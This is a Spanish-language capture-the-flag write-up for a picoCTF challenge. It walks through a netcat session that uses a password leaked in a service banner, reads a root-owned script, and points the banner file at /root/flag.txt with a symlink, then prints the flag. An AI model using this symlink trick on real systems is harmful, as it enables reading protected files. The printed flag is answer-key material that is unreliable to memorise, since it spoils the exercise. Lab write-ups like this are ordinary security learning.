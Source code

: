 
## Descripción

Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 50466`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 49792`. From the above information abuse the machine and find the flag in the /root directory.
## Pistas

*Maybe some small password cracking or guessing*
*Do you know about symlinks?*
## Solución

*Webshell*
```
ceciSolis-picoctf@webshell:~$ nc tethys.picoctf.net 50466
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

Protocol mismatch.

ceciSolis-picoctf@webshell:~$ nc tethys.picoctf.net 49792
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234           
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
JOHN DRAPER             
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ ls -la /root
ls -la /root
total 16
drwxr-xr-x 1 root root    6 Mar 12  2024 .
drwxr-xr-x 1 root root   29 Apr 14 01:32 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
player@challenge:~$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
player@challenge:~$ ln -s /root/flag.txt banner                           
ln -s /root/flag.txt banner 
player@challenge:~$ ^C
ceciSolis-picoctf@webshell:~$  nc tethys.picoctf.net 49792
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}
```
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}
## Notas Adicionales 

*Instanciamos el primero nos da una contraseña, luego al ejecutrar el segundo nos pide esa contraseña y 2 preguntas más, las contestamos y estaremos dentro, vemos que hay con ls -la, vemos que esta el banner, observamos que tiene con un cat, leemos el script, creamos un enlace simbolico con ln -s  lo mandamos a un archivo flag.txt y salimos, volvemos a instanciar la segunda y nos mostrara la bandera.*

*Enlace simbolico: archivo que apunta a otro archivo o carpeta, similar a un acceso directo*
## Referencias 

https://medium.com


